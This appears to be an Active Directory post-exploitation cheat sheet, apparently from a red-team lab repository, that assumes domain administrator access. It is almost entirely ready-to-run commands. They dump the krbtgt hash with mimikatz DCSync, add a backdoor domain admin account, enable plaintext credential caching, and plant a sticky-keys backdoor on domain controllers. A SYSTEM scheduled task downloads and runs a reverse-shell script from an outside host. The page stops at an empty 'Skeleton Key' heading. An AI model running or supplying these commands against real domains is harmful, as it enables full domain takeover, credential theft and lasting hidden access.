 The following techiniques require Domain Administrator privileges on the target domain.

## DCSync

```
.\mimikatz.exe
mimikatz # lsadump::dcsync /domain:cyberlab.cybercorp.local /user:krbtgt
```

```powershell
. .\Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command “lsadump::dcsync /domain:cyberlab.cybercorp.local /user:krbtgt”
```

## Adding domain admin user

```powershell
net user jeff.ridges FooBar123! /add /domain
net group "Administrators" jeff.ridges /add /domain
net group "Domain Admins" jeff.ridges /add /domain
net group "Enterprise Admins" jeff.ridges /add /domain
```

## Enabling plaintext credentials caching on DCs

```powershell
reg add "\\cyberlab-dc.cyberlab.cybercorp.local\HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest" /v UseLogonCredential /t REG_DWORD /d 1 /f
reg add "\\cyberlab-dc.cyberlab.cybercorp.local\HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v DisableDomainCreds /t REG_DWORD /d 0 /f
```

## Installing a sticky keys backdoor on DCs

```powershell
reg add "\\cyberlab-dc.cyberlab.cybercorp.local\HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe" /f");
```

## Scheduled Task

Schedule and execute a task (needs a Silver Ticket for the HOST service)

```powershell
schtasks /create /S "cyberlab-dc.cyberlab.cybercorp.local" /SC Minute /RU "NT Authority\SYSTEM" /TN "TASK_NAME" /TR "powershell.exe -ep bypass -c 'iex (New-Object Net.WebClient).DownloadString(''http://192.168.100.1:8080/Invoke-PowerShellTcp.ps1''')'"
schtasks /run /S "cyberlab-dc.cyberlab.cybercorp.local" /TN "TASK_NAME"
schtasks /delete /S "cyberlab-dc.cyberlab.cybercorp.local" /TN "TASK_NAME"
```

## Skeleton Key
